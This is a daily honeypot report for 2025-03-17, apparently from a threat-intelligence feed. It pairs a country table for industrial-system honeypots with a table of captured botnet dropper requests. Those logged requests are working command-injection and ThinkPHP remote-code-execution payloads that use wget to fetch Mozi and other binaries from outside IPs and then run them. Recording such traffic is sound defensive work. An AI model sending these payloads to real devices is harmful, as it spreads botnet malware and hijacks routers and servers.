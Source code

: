 ```yaml
---
title: "Report: 2025-03-17 "
date: 2025-03-17
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-17
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Germany            |
| FR               | Singapore          |
| FR               | Australia          |
| US               | Dubai              |
| FR               | Georgia            |
| CN               | Georgia            |
| AE               |                    |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                       |
|:----------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.164.177.171  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.164.177.171:10558/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                 |
| 8.152.208.190   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                                 |
| 103.207.125.200 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                         |
| 117.72.77.99    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                  |
| 60.128.16.84    | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://157.245.200.182/Binarys/Nyx4r.arm;chmod+777+/tmp/Nyx4r.arm;sh+/tmp/Nyx4r.arm arm4.jaws HTTP/1.1                                                                                      |
| 45.148.10.235   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F42.112.26.36%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                     |
| 179.43.175.250  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F42.112.26.36%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                     |
| 45.230.66.14    | GET /shell?cd+/tmp;rm+-rf+*;wget+http://45.230.66.14:11797/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                  |
| 27.128.156.189  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1 |
| 203.236.190.19  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                         |
| 211.143.108.124 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1 |
| 186.30.92.187   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1 |
